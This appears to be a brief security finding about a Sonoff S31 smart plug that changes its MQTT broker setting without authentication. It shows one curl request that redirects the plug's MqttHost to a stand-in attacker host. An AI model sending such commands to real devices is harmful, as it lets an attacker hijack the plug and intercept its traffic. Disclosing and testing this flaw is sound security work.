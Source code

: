#  MQTT Configuration Injection

## 📋 Summary
The Sonoff S31 smart plug accepted a command to change its MQTT broker (`MqttHost`) without requiring any authentication.

##  Command Used
```bash
curl "http://192.168.8.214/cm?cmnd=MqttHost%20attacker.com"
```
